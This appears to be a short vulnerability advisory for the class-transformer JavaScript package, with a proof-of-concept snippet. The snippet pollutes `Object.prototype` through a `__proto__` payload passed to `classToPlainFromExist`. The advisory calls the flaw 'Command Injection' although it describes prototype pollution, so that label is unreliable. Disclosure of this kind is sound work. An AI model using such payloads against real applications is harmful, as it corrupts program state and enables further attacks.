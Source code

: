 # Overview

Affected versions of this package are vulnerable to Command Injection. the `classToPlainFromExist` function could be tricked into adding or modifying properties of `Object.prototype` using a `__proto__` payload.

# POC

```js
var root = require("class-transformer");
var payload = JSON.parse('{"__proto__": {"huntr": "dev"}}');
root.classToPlainFromExist(payload, {});
console.log({}.huntr);
```
